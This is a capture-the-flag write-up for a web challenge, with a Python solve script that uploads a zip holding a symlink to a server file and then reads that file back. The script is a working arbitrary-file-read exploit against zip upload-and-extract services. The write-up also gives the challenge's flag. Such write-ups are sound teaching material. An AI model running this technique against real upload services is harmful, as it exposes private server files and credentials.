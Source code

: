 ```yaml
---
created: 2024-08-31T13:59
updated: 2024-09-01T16:01
solves: 173
points: 50
---
```


It's a simple symlink zip challenge.

We include a symlink that upon extraction will point to `/home/user/flag.txt` allowing us to read the flag easily.

## solve

```python
import re
import io
import zipfile
import requests

target = 'https://zipzone-web.challs.csc.tf'


def add_symlink_to_zip(zip_file, symlink_name, target):
    zip_info = zipfile.ZipInfo(symlink_name)
    zip_info.create_system = 3
    zip_info.external_attr = 0o120777 << 16
    zip_file.writestr(zip_info, target)


zip_buffer = io.BytesIO()

with zipfile.ZipFile(zip_buffer, 'w') as zipf:
    add_symlink_to_zip(zipf, 'flag.txt', '/home/user/flag.txt')
zip_buffer.seek(0)
r = requests.post(target, files={'file': ('file.zip', zip_buffer)})
print(requests.get(target+re.search(r'Your file is at <a href="(/files/[^"]+)">', r.text).group(1)+"/flag.txt").text)
```

```flag
CSCTF{5yml1nk5_4r3_w31rd}
```
